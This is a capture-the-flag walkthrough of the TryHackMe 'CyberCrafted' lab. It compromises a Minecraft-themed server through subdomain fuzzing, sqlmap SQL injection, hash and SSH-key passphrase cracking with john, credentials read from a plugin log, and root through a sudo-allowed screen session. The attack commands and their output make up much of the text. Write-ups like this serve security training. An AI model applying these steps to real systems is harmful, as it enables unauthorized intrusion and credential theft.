

## Introduction

CyberCrafted is a pay-to-win Minecraft server that involves exploiting SQL injection, weak credentials, and misconfigured permissions to gain root access. This walkthrough will guide you through the process of compromising the CyberCrafted server, from initial reconnaissance to gaining root access.

## Initial Enumeration

### Nmap Scan

The first step in any penetration test is enumeration. We start by scanning the target machine using Nmap to identify open ports and services.

```bash
nmap -sV -sC -p- 10.10.61.207 > nmap/service.log
```

**Nmap Results:**

```nmap
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-21 23:54 EST
Nmap scan report for cybercrafted.thm (10.10.61.207)
Host is up (0.17s latency).

PORT      STATE SERVICE   VERSION
22/tcp    open  ssh       OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:36:ce:b9:ac:72:8a:d7:a6:b7:8e:45:d0:ce:3c:00 (RSA)
|   256 e9:e7:33:8a:77:28:2c:d4:8c:6d:8a:2c:e7:88:95:30 (ECDSA)
|_  256 76:a2:b1:cf:1b:3d:ce:6c:60:f5:63:24:3e:ef:70:d8 (ED25519)
80/tcp    open  http      Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cybercrafted
25565/tcp open  minecraft Minecraft 1.7.2 (Protocol: 127, Message: ck00r lcCyberCraftedr ck00rrck00r e-TryHackMe-r  ck00r, Users: 0/1)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.57 seconds
```

**Key Services Identified:**

- **SSH (22):** OpenSSH 7.6p1
- **HTTP (80):** Apache httpd 2.4.29
- **Minecraft (25565):** Minecraft 1.7.2

### Web Enumeration

Visiting the HTTP service on port 80 revealed a static image. We added `cybercrafted.thm` to our `/etc/hosts` file to resolve the domain.

**Webpage:**


**HTML Comment:**

```html
<!-- A Note to the developers: Just finished up adding other subdomains, now you can work on them! -->
```

### Subdomain Enumeration

Using `ffuf`, we discovered three subdomains:

```bash
ffuf -w /usr/share/wordlist/dirb/common.md -u http://cybercrafted.thm/ -H "Host: FUZZ.cybercrafted.thm"
```

**Subdomains Identified:**

- `www`
- `store`
- `admin`

**Admin Login Page:**


## Exploiting SQL Injection

### Identifying the Vulnerability

The `/search.php` endpoint on `store.cybercrafted.thm` was vulnerable to SQL injection. We used `sqlmap` to exploit this vulnerability.

**Captured Request:**

```
POST /search.php HTTP/1.1
Host: store.cybercrafted.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://store.cybercrafted.thm
Connection: close
Referer: http://store.cybercrafted.thm/search.php
Upgrade-Insecure-Requests: 1

search=testing&submit=
```

**Exploiting with `sqlmap`:**

```bash
sqlmap -r sqltest --batch --dbs
```

**Databases Identified:**

```
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] webapp
```

**Extracted Credentials:**

```
xXUltimateCreeperXx:88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01
```

**Cracking the Hash:**

Using `john`, we cracked the hash to reveal the password: `di*************9`.

## Gaining Initial Access

### Logging into Admin Panel

Using the credentials `xXUltimateCreeperXx:di*************9`, we logged into the admin panel at `admin.cybercrafted.thm`.

**Admin Panel:**


### Extracting SSH Key

From the admin panel, we extracted the SSH private key for the user `xXUltimateCreeperXx`.

**SSH Key:**



### Cracking the SSH Key

The SSH key was encrypted. We used `ssh2john` and `john` to crack the passphrase.

```bash
ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlist/rockyou.txt
```

**Cracked Passphrase:**

```
c*********6
```

### SSH Access

Using the SSH key and passphrase, we logged into the server as `xXUltimateCreeperXx`.

```bash
ssh -i id_rsa xXUltimateCreeperXx@10.10.61.207
```

## Privilege Escalation

### Escalating to `cybercrafted`

Enumerating the server, we discovered a Minecraft server running with a plugin called `loginsystem`. The plugin's log file contained credentials for the `cybercrafted` user.

**Log File:**

```
/opt/minecraft/cybercrafted/plugins/LoginSystem/log.txt
```

**Extracted Credentials:**

```
cybercrafted:J*****************k
```

### Escalating to `root`

The user `cybercrafted` had sudo permissions to run `/usr/bin/screen` as root.

**Sudo Permissions:**

```bash
Matching Defaults entries for cybercrafted on cybercrafted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cybercrafted may run the following commands on cybercrafted:
    (root) /usr/bin/screen -r cybercrafted
```

### Exploiting `screen`

Using `screen`, we created a new window with a root shell.

**Creating a New Window:**

```bash
sudo /usr/bin/screen -r cybercrafted
```

**Shortcut:**

```
ctrl+a+c
```

**Root Shell Obtained:**


## Conclusion

The CyberCrafted Minecraft server was compromised through a combination of SQL injection, weak credentials, and misconfigured permissions. By methodically enumerating services and exploiting discovered vulnerabilities, we successfully compromised the server and gained root access. This walkthrough underscores the importance of thorough enumeration and the effective use of discovered vulnerabilities in penetration testing.

## Resources

- [How To Use Linux Screen](https://linuxize.com/post/how-to-use-linux-screen/)